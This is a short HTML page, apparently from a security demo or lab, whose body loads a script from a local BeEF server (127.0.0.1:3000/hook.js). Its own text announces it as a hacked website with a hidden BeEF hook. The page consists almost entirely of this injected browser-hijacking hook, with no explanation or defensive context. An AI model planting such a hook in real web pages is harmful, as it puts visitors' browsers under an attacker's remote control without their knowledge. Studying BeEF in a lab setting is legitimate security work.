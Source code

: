 <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<body>

<script src="http://127.0.0.1:3000/hook.js"></script>


<h1>Welcome to My Page</h1>

This is a hacked website with hidden Beef Hook!

</body>
</html>
